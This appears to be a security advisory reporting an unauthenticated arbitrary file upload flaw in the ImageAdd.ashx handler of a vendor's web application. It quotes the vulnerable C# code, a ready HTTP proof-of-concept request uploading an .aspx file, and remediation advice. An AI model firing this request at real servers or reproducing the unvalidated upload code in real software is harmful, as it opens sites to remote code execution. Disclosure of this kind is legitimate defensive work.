

# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary File Upload Vulnerability in ImageAdd.ashx
### Summary:
The `ImageAdd` endpoint in the provided code snippet lacks proper validation when handling file uploads, leading to a file upload vulnerability.

### Affected Endpoint:
`/ImageAdd.ashx`

### Vulnerability Type:
RCE

### Vulnerable Code:
```c#
public class ImageAdd : IHttpHandler
{
    public void ProcessRequest(HttpContext context)
    {
        context.Response.ContentType = "text/plain";
        var b = true;
        var msg = "";
        try
        {
            var file = context.Request.Files[0];
            var fileName = file.FileName;
            var path = Path.Combine(HttpRuntime.AppDomainAppPath, "upload", DateTime.Now.ToString("yyyyMMdd"));
            if (!Directory.Exists(path))
            {
                Directory.CreateDirectory(path);
            }
            var nn = Path.Combine(path, fileName);
            file.SaveAs(nn);
            msg = "/upload/" + DateTime.Now.ToString("yyyyMMdd") + "/" + fileName;
        }
        catch (Exception ex)
        {
            b = false;
            msg = "图片上传失败" + ex.Message;
        }
        context.Response.Write((b ? 0 : 99) + "$" + msg + "");
    }

    public bool IsReusable
    {
        get
        {
            return false;
        }
    }
}
```

### Proof of Concept (PoC):
```http
POST /ImageAdd.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
An attacker can exploit this vulnerability to upload arbitrary files to the server, potentially leading to remote code execution (RCE) or other security risks.

### Recommendation:
1. Implement proper file type validation to ensure that only allowed file types are uploaded.
2. Store uploaded files outside of the web root directory to prevent direct access.
3. Implement authentication and authorization checks before allowing file uploads.

### Conclusion:
The lack of input validation in the `ImageAdd` endpoint allows attackers to upload malicious files, posing a significant security risk to the application. It is crucial to address this vulnerability promptly to prevent potential exploitation.

### References:
- OWASP File Upload Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

